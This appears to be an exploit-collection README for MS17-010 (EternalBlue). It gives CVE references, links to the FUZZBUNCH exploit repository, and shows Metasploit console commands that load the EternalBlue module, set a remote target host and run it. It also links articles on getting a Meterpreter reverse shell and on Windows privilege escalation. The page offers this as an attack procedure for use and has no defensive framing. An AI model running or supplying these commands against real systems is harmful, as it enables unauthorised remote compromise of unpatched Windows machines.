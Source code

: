 # MS17-010

- exp [FUZZBUNCH](https://github.com/exploitx3/FUZZBUNCH)

Vulnerability reference:
 * [MS17-010](https://technet.microsoft.com/library/security/ms17-010)
 * [CVE-2017-0143](http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143)
 * [CVE-2017-0144](http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0144)
 * [CVE-2017-0145](http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0145)
 * [CVE-2017-0146](http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0146)
 * [CVE-2017-0148](http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0148)
 * [CVE-2017-0147](http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0147)

## Usage
```
msf > use exploit/windows/smb/ms17_010_eternalblue
msf exploit(ms17_010_eternalblue) > set rhost 10.10.1.13
msf exploit(ms17_010_eternalblue) > run
```

## References
* [Windows2012上如何通过攻击ETERNALBLUE获得Meterpreter反弹](https://mp.weixin.qq.com/s?__biz=MzI5MzY2MzM0Mw%3D%3D&mid=2247483946&idx=1&sn=cbe2e5a08470d699daeb74d7904581c7&scene=45#wechat_redirect)
* [MS17-017: Microsoft Windows 7 SP1 x86 Privilege Escalation Vulnerability](https://securityonline.info/ms17-017-microsoft-windows-7-sp1-x86-privilege-escalation-vulnerability/)  
